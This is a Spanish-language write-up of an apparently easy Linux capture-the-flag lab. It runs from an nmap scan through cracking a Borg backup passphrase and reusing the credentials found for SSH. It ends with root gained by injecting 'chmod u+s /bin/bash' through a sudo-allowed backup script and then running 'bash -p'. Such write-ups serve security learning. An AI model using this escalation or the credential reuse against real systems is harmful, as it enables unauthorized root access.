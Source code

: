 #Linux #Easy 
### nmap 
```python
Nmap scan report for 10.10.154.71
Host is up (0.23s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
|_  256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.84 seconds
```

### Ports:
```c
	22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
	8080/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

### en la pagina podemos encontrar archivos de configuracion que podemos descargar

![[Pasted image 20231107222735.png]]
descargamos esto para echar un vistazo.
### parece que estamos ante un repositorio. debemos descargarlo configurarlo y montarlo para saber que hay dentro.

### instalacion
```java
	sudo apt install borgbackup   
```
### montamos el directorio de la siguiente manera:
```python
borg mount /home/kali/Desktop/thm/Cyborg/home/field/dev/final_archive /home/kali/Desktop/thm/Cyborg/repository
```
al montar el directorio nos pide una clave la cual buscaremos con john.

![[Pasted image 20231107231024.png]]
buscaremos la clave en el archivo que conseguimos en la pagina llamado passwd utilizaremos john para intentar sacar la clave
![[Pasted image 20231107231157.png]]
### clave
```c
squidward
```

### al montar el repositorio navegamos entre las carpetas y conseguimos algo interesante:
![[Pasted image 20231107232642.png]]
### Credenciales:
```c
alex : S3cretP@s3
```
conseguimos lo que parece ser credenciales del usuario alex. vamos a mirar el pueto 22 SSH las credenciales de alex que hemos conseguido
![[Pasted image 20231107233123.png]]
### escalar privilegios: ejecutamos sudo -l 
![[Pasted image 20231108001114.png]]
parece que todo los usuarios tienen todos los permisos sobre /etc/mp3/backups/backup.sh
vamos hacer un cat para ver que hace este archivo
![[Pasted image 20231108001510.png]]
![[Pasted image 20231108001557.png]]

### parece que el la primera parte del script define una flag y la llama c y al final del script le dice que cmd=$( $ command) 

al parecer todo lo que le indiquemos al script con la flag -c sera igual a comandos ejecutados por cmd. asi que usaremos esto para llamar una bash como root con el siguiente codigo.

llamamos al scritp como sudo de la siguiente forma.
```python
	sudo /etc/mp3backups/backup.sh 
```
llamamos la bandera c y aprovecharemos esto para darle permisos a la bash como usuario root. para despues llamarla. de la siguiente manera.
```python
	sudo /etc/mp3backups/backup.sh -c "chmod u+s /bin/bash"
```
### hacemos bash -p
![[Pasted image 20231108002744.png]]
hemos cambiado los permisos de la bash para que se ejecute como sudo y cuando hacemos bash -p nos da una bash como root
### WE ARE ROOT